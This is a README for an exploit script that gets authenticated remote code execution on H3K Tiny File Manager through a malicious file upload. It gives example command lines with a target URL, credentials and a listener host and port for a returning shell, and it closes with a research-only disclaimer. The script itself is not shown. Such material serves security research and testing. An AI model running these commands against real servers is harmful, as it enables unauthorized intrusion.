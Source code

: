 # H3K Tiny File Manager Authenticated Remote Code Execution

An automated process for a malicious file upload in H3K Tiny File Manager in order to achieve RCE. For the `-pr` and `-ph` parameters. Login in to the web application should reveal this to you. These two values are optional.

## Getting Started

### Executing program

* With python3
```
python3 exploit.py -t 'http://hacked.rce/tinyfilemanager.php' -u username -p password -lh 127.0.0.1 -lp 1337
```
* Or
```
python3 exploit.py -t 'http://hacked.rce/tiny/tinyfilemanager.php' -u username -p password -pr 'p' -ph 'directory/uploads' -lh 127.0.0.1 -lp 1337
```

## Help

For help menu:
```
python3 exploit.py -h
```

## Disclaimer
All the code provided on this repository is for educational/research purposes only. Any actions and/or activities related to the material contained within this repository is solely your responsibility. The misuse of the code in this repository can result in criminal charges brought against the persons in question. Author will not be held responsible in the event any criminal charges be brought against any individuals misusing the code in this repository to break the law.